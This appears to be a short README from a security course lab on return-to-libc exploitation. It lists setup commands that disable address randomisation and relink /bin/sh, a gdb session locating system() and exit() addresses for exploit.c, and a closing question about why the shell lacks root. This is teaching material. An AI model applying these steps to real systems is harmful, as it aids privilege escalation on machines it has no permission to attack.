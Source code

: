 # return-to-libc

### Note on Preparation

```bash
sudo mv /bin/sh /bin/sh.original
sudo ln -s /bin/zsh /bin/sh
export MYSHELL=/bin/sh
make randomoff
```

run showesh to show MYSHELL address
```bash
./showsh
$ bffffe8a
```

0xbffffe8a is address of MYSHELL to be filled in.

Run gdb to get address of system() and exit()
```bash
gdb retlib
(gdb) b main
(gdb) r
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e5f430 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e52fb0 <exit>
```

Fill above two adresses in exploit.c

run make to generate all files
```bash
make
```

### Result

sh is invoked, but not as root user. Why?
